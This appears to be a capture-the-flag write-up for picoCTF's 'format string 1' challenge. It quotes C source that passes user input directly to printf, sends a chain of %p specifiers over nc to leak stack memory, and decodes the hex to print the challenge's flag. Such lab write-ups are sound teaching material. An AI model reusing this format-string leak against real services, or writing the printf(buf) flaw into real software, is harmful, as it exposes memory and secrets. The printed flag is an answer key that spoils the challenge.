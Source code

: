 # format string 1
## Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

link : https://play.picoctf.org/practice/challenge/434

'''bash
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~/Downloads$ nc mimas.picoctf.net 51737
Give me your order and I'll read it back to you:
text
Here's your order: text
Bye!
flag 
^Z
[1]+  Stopped                 nc mimas.picoctf.net 51737
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~/Downloads$ cat pico/format-string-1.c 
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~/Downloads$ nc mimas.picoctf.net 51737
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7c6a1a966a00,(nil),0x6d2880,0xa347834,0x7fffa7c74ba0,0x7c6a1a757e60,0x7c6a1a97c4d0,0x1,0x7fffa7c74c70,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35365f673431665f,0x7d313464303935,0x7,0x7c6a1a97e8d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9
Bye!
abhi@abhi-Lenovo-IdeaPad-S145-15IKB:~/Downloads$ 
'''

so the output after cleaning is 

'''bash
0x402118,0x7c6a1a966a00,0x6d2880,0xa347834,0x7fffa7c74ba0,0x7c6a1a757e60,0x7c6a1a97c4d0,0x1,0x7fffa7c74c70,0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35365f673431665f,0x7d313464303935,0x7,0x7c6a1a97e8d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9
'''

converting this to ascii gives us 

'''bash
ÿ§ÇLp{FTCocip5_14m1n44x4_31y756_g41f_}14d095
'''

after removing all the junk data the hex values for the flag are

'''bash
0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35365f673431665f,0x7d313464303935
'''

reversing the hex value we get 

'''bash
picoCTF{4n1m41_57y13_4x4_f14g_65590d41}
''' 
